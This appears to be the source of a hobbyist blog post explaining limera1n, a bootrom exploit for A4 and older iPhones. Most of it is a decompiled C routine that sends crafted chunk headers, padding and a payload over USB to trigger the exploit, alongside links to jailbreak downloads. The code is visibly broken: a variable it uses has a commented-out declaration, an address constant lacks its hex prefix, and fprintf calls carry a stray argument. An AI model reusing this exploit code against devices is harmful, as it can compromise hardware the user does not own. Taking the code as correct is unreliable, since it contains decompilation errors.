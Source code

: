 ```yaml
---
layout: post
title: "What is limera1n?"
description: "Devices with the limera1n vulnerability are the most fun devices to play with."
category: articles
tags: [limera1n, iphone 4, info]
image:
  feature: "limera1npaper.png"
---
```


## limera1n
limera1n is a bootrom exploit found by `geohot` that works on all A4 and below devices. The last devices being the iPhone 4 GSM (1,1)(1,3) and the iPhone 4 CDMA (3,3). It is the last public bootrom exploit to be released to this day. A bootrom exploit is an exploit that can be run on a device with any iOS version. Basically meaning the device can be jailbroken for life. The reason I am talking about limera1n is because it will be mentioned often in my posts. I like to mess around with this exploit a lot and find out all of the cool stuff I can do with it. It has been made into a tethered jailbreak ([Mac](https://sites.google.com/site/dayt0nsfiles/downloads/limera1nOSX.zip?attredirects=0&d=1), [Windows](https://sites.google.com/site/dayt0nsfiles/downloads/limera1nWIN.exe.zip?attredirects=0&d=1)) by geohot which you can untether using the `0x24000 Segment Overflow` exploit or the `Packet Filter Kernel Exploit`. 


## Code Executed
{% highlight c %}
signed int __cdecl upload_exploit() {
int device_type;
signed int payload_address;
int free_address;
int deviceerror;
char *chunk_headers_ptr;
unsigned int sent_counter;
//int v6;
signed int result; 
//signed int v8;
int recv_error_code;
signed int payload_address2;
signed int padding_size;
char payload;
char chunk_headers;
//int v14;
//v14 = *MK_FP(__GS__, 20);
device_type = *(_DWORD *)(device + 16);

if ( device_type == 8930 ) {
padding_size = 0x2A800;
payload_address = 0x8402B001;
free_address = 0x8403BF9C;
} else {
payload_address = 0x84023001;
padding_size = 0x22800;
// free_address = (((device_type == 8920) – 1) & 0xFFFFFFF4) – 0x7BFCC05C;
if(device_type == 8920) free_address = 0x84033FA4;
else free_address = 84033F98;
}

memset(&payload, 0, 0x800);
memcpy(&payload, exploit, 0x230);

if (libpois0n_debug) {
//v8 = payload_address;
fprintf(stderr, 1, "Resetting device counters\n");
//payload_address = v8;
}

payload_address2 = payload_address;
deviceerror = irecv_reset_counters(client);

if ( deviceerror ) {
irecv_strerror(deviceerror);
fprintf(stderr, 1, &aCannotFindS[12]);
result = -1;
} else {
memset(&chunk_headers, 0xCC, 0x800);
chunk_headers_ptr = &chunk_headers;

do {
*(_DWORD *)chunk_headers_ptr = 1029;       
*((_DWORD *)chunk_headers_ptr + 1) = 257;
*((_DWORD *)chunk_headers_ptr + 2) = payload_address2;  
*((_DWORD *)chunk_headers_ptr + 3) = free_address;
chunk_headers_ptr += 64;
} while ((int *)chunk_headers_ptr != &v14);

if (libpois0n_debug)
fprintf(stderr, 1, "Sending chunk headers\n");

sent_counter = 0;
irecv_control_transfer(client, 0x21, 1, 0, 0, &chunk_headers, 0x800);
memset(&chunk_headers, 0xCC, 0x800);

do {
sent_counter += 0x800;
irecv_control_transfer(client, 0x21, 1, 0, 0, &chunk_headers, 0x800);
} while (sent_counter < padding_size);

if (libpois0n_debug)
fprintf(stderr, 1, "Sending exploit payload\n");

irecv_control_transfer(client, 0x21, 1, 0, 0, &payload, 0x800);

if (libpois0n_debug)
fprintf(stderr, 1, "Sending fake data\n");

memset(&chunk_headers, 0xBB, 0x800);
irecv_control_transfer(client, 0xA1, 1, 0, 0, &chunk_headers, 0x800);
irecv_control_transfer(client, 0x21, 1, 0, 0, &chunk_headers, 0x800);

if (libpois0n_debug)
fprintf(stderr, 1, "Executing exploit\n");

irecv_control_transfer(client, 0x21, 2, 0, 0, &chunk_headers, 0);
irecv_reset(client);
irecv_finish_transfer(client);

if (libpois0n_debug) {
fprintf(stderr, 1, "Exploit sent\n");
if (libpois0n_debug)
fprintf(stderr, 1, "Reconnecting to device\n");
}

client = (void *)irecv_reconnect(client, 2);

if (client) {
result = 0;
} else {
if (libpois0n_debug) {
recv_error_code = irecv_strerror(0);
fprintf(stderr, 1, &aCannotFindS[12], recv_error_code);
}
fprintf(stderr, 1, "Unable to reconnect\n");
result = -1;
}
}

// compiler stack check
//if (*MK_FP(__GS__, 20) != v14)
//    __stack_chk_fail(v6, *MK_FP(__GS__, 20) ^ v14);

return result;
}
{% endhighlight %}

## limera1n For Newer Devices
As of now there are no public bootrom exploits for any newer devices. [iH8sn0w](https://twitter.com/iH8sn0w/) has found a bootrom exploit for A5 and A5X devices, but has not shared it publicly. He has not done this because he says that with just a bit of tweaking he can make it work on newer devices (A5+). If he were to release it anytime soon, Apple is in a position to release a newer model of a device without any problem, effectivly patching it on half of the devices the bootrom exploit would work on.

<center><h3>-dayt0n</h3></center>
